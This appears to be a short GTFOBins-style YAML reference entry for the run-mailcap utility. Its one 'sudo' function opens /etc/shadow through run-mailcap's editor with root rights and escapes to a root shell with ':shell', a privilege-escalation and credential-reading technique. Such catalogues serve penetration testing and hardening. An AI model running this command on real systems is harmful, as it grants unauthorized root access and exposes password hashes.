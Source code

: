 ```yaml
---
functions:
  sudo:
    - code: |
        sudo run-mailcap --action=edit /etc/shadow  
        :shell
---
```

